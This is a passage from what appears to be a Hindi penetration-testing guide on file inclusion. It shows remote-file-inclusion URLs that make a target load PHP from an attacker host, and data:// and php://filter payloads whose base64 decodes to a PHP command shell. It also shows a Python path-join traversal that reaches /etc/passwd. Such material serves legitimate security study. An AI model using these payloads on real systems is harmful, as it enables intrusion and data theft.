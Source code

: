 PHP में यह डिफ़ॉल्ट रूप से अक्षम है क्योंकि **`allow_url_include`** **Off** है। यह काम करने के लिए यह **On** होना चाहिए, और उस मामले में आप अपने सर्वर से एक PHP फ़ाइल समाविष्ट कर सकते हैं और RCE प्राप्त कर सकते हैं:
```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
यदि किसी कारणवश **`allow_url_include`** **On** है, लेकिन PHP बाहरी वेबपेजों तक पहुंच को **फ़िल्टर** कर रहा है, [इस पोस्ट](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/) के अनुसार, आप उदाहरण के लिए डेटा प्रोटोकॉल का उपयोग कर सकते हैं जिसमें बेस64 को डिकोड करने के लिए बी64 PHP कोड का उपयोग करें और RCE प्राप्त करें:
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
{% endcode %}

{% hint style="info" %}
पिछले कोड में, अंतिम `+.txt` इसलिए जोड़ा गया था क्योंकि हमलावर को एक स्ट्रिंग की आवश्यकता थी जो `.txt` में समाप्त होती है, इसलिए स्ट्रिंग उसके साथ समाप्त होती है और b64 डिकोड के बाद वह भाग केवल कचरा लौटाएगा और वास्तविक PHP कोड शामिल होगा (और इसलिए, क्रियान्वित होगा)।
{% endhint %}

एक और उदाहरण **`php://` प्रोटोकॉल का उपयोग न करने वाला** हो सकता है:
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```
{% endcode %}

## पायथन रूट तत्व

पायथन में इस तरह के कोड में:
```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```
यदि उपयोगकर्ता **`file_name`** में **पूर्ण पथ** पास करता है, तो **पिछला पथ बस हटा दिया जाता है**:
```python
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```
यह इच्छित व्यवहार है जैसा कि [दस्तावेज़](https://docs.python.org/3.10/library/os.path.html#os.path.join) के अनुसार:

> यदि कोई घटक एक पूर्ण मार्ग है, तो सभी पिछले घटक छोड़ दिए जाते हैं और जोड़ना पूर्ण मार्ग घटक से जारी रहता है।

## जावा सूची निर्देशिकाएँ

ऐसा लगता है कि अगर आपके पास जावा में एक पथ अभिव्यक्ति है और आप **एक निर्देशिका के लिए पूछते हैं** बजाय एक फ़ाइल के, तो **निर्देशिका की सूची वापस लौटाई जाएगी**। यह अन्य भाषाओं में नहीं होगा (जैसा कि मुझे लगता है)।

## शीर्ष 25 पैरामीटर
